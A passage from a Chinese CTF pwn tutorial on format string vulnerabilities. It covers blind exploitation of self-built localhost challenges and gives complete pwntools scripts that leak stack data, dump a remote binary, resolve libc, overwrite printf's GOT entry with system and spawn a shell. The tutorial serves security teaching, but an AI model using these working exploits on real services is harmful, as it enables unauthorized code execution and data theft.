    payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
    #print payload
    createcontact('3333', '123456789', '300', payload)
    printcontact()
    sh.recvuntil('Description: ')
    sh.recvuntil('Description: ')
    #gdb.attach(sh)
    print 'get shell'
    sh.recvuntil('>>> ')
    #get shell
    sh.sendline('5')
    sh.interactive()

需要注意的是，这样并不能稳定得到shell，因为我们一次性输入了太长的字符串。但是我们又没有办法在前面控制所想要输入的地址。只能这样了。

格式化字符串盲打
&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&

原理
----

所谓格式化字符串盲打指的是只给出可交互的ip地址与端口，不给出对应的binary文件来让我们进行pwn，其实这个和BROP差不多，不过BROP利用的是栈溢出，而这里我们利用的是格式化字符串漏洞。一般来说，我们按照如下步骤进行

-  确定程序的位数
-  确定漏洞位置
-  利用

由于没找到比赛后给源码的题目，所以自己简单构造了两道题。

例子1-泄露栈
------------

源码和部署文件均放在了对应的文件夹fmt\_blind\_stack中。

确定程序位数
~~~~~~~~~~~~

我们随便输入了%p，程序回显如下信息

.. code:: shell

    ➜  blind_fmt_stack git:(master) ✗ nc localhost 9999
    %p
    0x7ffd4799beb0
    G�flag is on the stack%                          

告诉我们flag在栈上，同时知道了该程序是64位的，而且应该有格式化字符串漏洞。

利用
~~~~

那我们就一点一点测试看看

.. code:: python

    from pwn import *
    context.log_level = 'error'


    def leak(payload):
        sh = remote('127.0.0.1', 9999)
        sh.sendline(payload)
        data = sh.recvuntil('\n', drop=True)
        if data.startswith('0x'):
            print p64(int(data, 16))
        sh.close()


    i = 1
    while 1:
        payload = '%{}$p'.format(i)
        leak(payload)
        i += 1

最后在输出中简单看了看，得到flag

.. code:: shell

    ////////
    ////////
    \x00\x00\x00\x00\x00\x00\x00\xff
    flag{thi
    s_is_fla
    g}\x00\x00\x00\x00\x00\x00
    \x00\x00\x00\x00\xfe\x7f\x00\x00

例子2-盲打劫持got
-----------------

源码以及部署文件均已经在blind\_fmt\_got文件夹中。

确定程序位数
~~~~~~~~~~~~

通过简单地测试，我们发现这个程序是格式化字符串漏洞函数，并且程序为64位。

.. code:: shell

    ➜  blind_fmt_got git:(master) ✗ nc localhost 9999
    %p
    0x7fff3b9774c0

这次啥也没有回显，又试了试，发现也没啥情况，那我们就只好来泄露一波源程序了。

确定偏移
~~~~~~~~

在泄露程序之前，我们还是得确定一下格式化字符串的偏移，如下

.. code:: shell

    ➜  blind_fmt_got git:(master) ✗ nc localhost 9999
    aaaaaaaa%p%p%p%p%p%p%p%p%p
    aaaaaaaa0x7ffdbf920fb00x800x7f3fc9ccd2300x4006b00x7f3fc9fb0ab00x61616161616161610x70257025702570250x70257025702570250xa7025

据此，我们可以知道格式化字符串的起始地址偏移为6。

泄露binary
~~~~~~~~~~

由于程序是64位，所以我们从0x400000处开始泄露。一般来说有格式化字符串漏洞的盲打都是可以读入 '\x00' 字符的，，不然没法泄露怎么玩，，除此之后，输出必然是 '\x00' 截断的，这是因为格式化字符串漏洞利用的输出函数均是 '\x00' 截断的。。所以我们可以利用如下的泄露代码。

.. code:: python

    #coding=utf8
    from pwn import *

    #context.log_level = 'debug'
    ip = "127.0.0.1"
    port = 9999


    def leak(addr):
        # leak addr for three times
        num = 0
        while num < 3:
            try:
                print 'leak addr: ' + hex(addr)
                sh = remote(ip, port)
                payload = '%00008$s' + 'STARTEND' + p64(addr)
                # 说明有\n，出现新的一行
                if '\x0a' in payload:
                    return None
                sh.sendline(payload)
                data = sh.recvuntil('STARTEND', drop=True)
                sh.close()
                return data
            except Exception:
                num += 1
                continue
        return None

    def getbinary():
        addr = 0x400000
        f = open('binary', 'w')
        while addr < 0x401000:
            data = leak(addr)
            if data is None:
                f.write('\xff')
                addr += 1
            elif len(data) == 0:
                f.write('\x00')
                addr += 1
            else:
                f.write(data)
                addr += len(data)
        f.close()
    getbinary()

需要注意的是，在payload中需要判断是否有 '\n' 出现，因为这样会导致源程序只读取前面的内容，而没有办法泄露内存，所以需要跳过这样的地址。

分析binary
~~~~~~~~~~

利用ida打开泄露的binary，改变程序基地址，然后简单看看，可以基本确定源程序main函数的地址

.. code:: asm

    seg000:00000000004005F6                 push    rbp
    seg000:00000000004005F7                 mov     rbp, rsp
    seg000:00000000004005FA                 add     rsp, 0FFFFFFFFFFFFFF80h
    seg000:00000000004005FE
    seg000:00000000004005FE loc_4005FE:                             ; CODE XREF: seg000:0000000000400639j
    seg000:00000000004005FE                 lea     rax, [rbp-80h]
    seg000:0000000000400602                 mov     edx, 80h ; '€'
    seg000:0000000000400607                 mov     rsi, rax
    seg000:000000000040060A                 mov     edi, 0
    seg000:000000000040060F                 mov     eax, 0
    seg000:0000000000400614                 call    sub_4004C0
    seg000:0000000000400619                 lea     rax, [rbp-80h]
    seg000:000000000040061D                 mov     rdi, rax
    seg000:0000000000400620                 mov     eax, 0
    seg000:0000000000400625                 call    sub_4004B0
    seg000:000000000040062A                 mov     rax, cs:601048h
    seg000:0000000000400631                 mov     rdi, rax
    seg000:0000000000400634                 call    near ptr unk_4004E0
    seg000:0000000000400639                 jmp     short loc_4005FE

可以基本确定的是sub\_4004C0为read函数，因为读入函数一共有三个参数的话，基本就是read了。此外，下面调用的sub\_4004B0应该就是输出函数了，再之后应该又调用了一个函数，此后又重新跳到读入函数处，那程序应该是一个while
1的循环，一直在执行。

利用思路
~~~~~~~~

分析完上面的之后，我们可以确定如下基本思路

-  泄露printf函数的地址，
-  获取对应libc以及system函数地址
-  修改printf地址为system函数地址
-  读入/bin/sh;以便于获取shell

利用程序
~~~~~~~~

程序如下。

.. code:: python

    #coding=utf8
    import math
    from pwn import *
    from LibcSearcher import LibcSearcher
    #context.log_level = 'debug'
    context.arch = 'amd64'
    ip = "127.0.0.1"
    port = 9999


    def leak(addr):
        # leak addr for three times
        num = 0
        while num < 3:
            try:
                print 'leak addr: ' + hex(addr)
                sh = remote(ip, port)
                payload = '%00008$s' + 'STARTEND' + p64(addr)
                # 说明有\n，出现新的一行
                if '\x0a' in payload:
                    return None
                sh.sendline(payload)
                data = sh.recvuntil('STARTEND', drop=True)
                sh.close()
                return data
            except Exception:
                num += 1
                continue
        return None


    def getbinary():
        addr = 0x400000
        f = open('binary', 'w')
        while addr < 0x401000:
            data = leak(addr)
            if data is None:
                f.write('\xff')
                addr += 1
            elif len(data) == 0:
                f.write('\x00')
                addr += 1
            else:
                f.write(data)
                addr += len(data)
        f.close()


    #getbinary()
    read_got = 0x601020
    printf_got = 0x601018
    sh = remote(ip, port)
    # let the read get resolved
    sh.sendline('a')
    sh.recv()
    # get printf addr
    payload = '%00008$s' + 'STARTEND' + p64(read_got)
    sh.sendline(payload)
    data = sh.recvuntil('STARTEND', drop=True).ljust(8, '\x00')
    sh.recv()
    read_addr = u64(data)

    # get system addr
    libc = LibcSearcher('read', read_addr)
    libc_base = read_addr - libc.dump('read')
    system_addr = libc_base + libc.dump('system')
    log.success('system addr: ' + hex(system_addr))
    log.success('read   addr: ' + hex(read_addr))
    # modify printf_got
    payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
    # get all the addr
    addr = payload[:32]
    payload = '%32d' + payload[32:]
    offset = (int)(math.ceil(len(payload) / 8.0) + 1)
    for i in range(6, 10):
        old = '%{}$'.format(i)
        new = '%{}$'.format(offset + i)
        payload = payload.replace(old, new)
    remainer = len(payload) % 8
    payload += (8 - remainer) * 'a'
    payload += addr
    sh.sendline(payload)
    sh.recv()

    # get shell
    sh.sendline('/bin/sh;')
    sh.interactive()

这里需要注意的是这一段代码

.. code:: python

    # modify printf_got
    payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
    # get all the addr
    addr = payload[:32]
    payload = '%32d' + payload[32:]
    offset = (int)(math.ceil(len(payload) / 8.0) + 1)
    for i in range(6, 10):
        old = '%{}$'.format(i)
        new = '%{}$'.format(offset + i)
        payload = payload.replace(old, new)
    remainer = len(payload) % 8
    payload += (8 - remainer) * 'a'
    payload += addr
    sh.sendline(payload)
    sh.recv()

fmtstr\_payload直接得到的payload会将地址放在前面，而这个会导致printf的时候':raw-latex:`\x`00'截断（\ **关于这一问题，pwntools目前正在开发fmt\_payload的加强版，估计快开发出来了。**\ ）。所以我使用了一些技巧将它放在后面了。主要的思想是，将地址放在后面8字节对齐的地方，并对payload中的偏移进行修改。需要注意的是

.. code:: python

    offset = (int)(math.ceil(len(payload) / 8.0) + 1)

这一行给出了修改后的地址在格式化字符串中的偏移，之所以是这样在于无论如何修改，由于'%order$hn'中order多出来的字符都不会大于8。具体的可以自行推导。
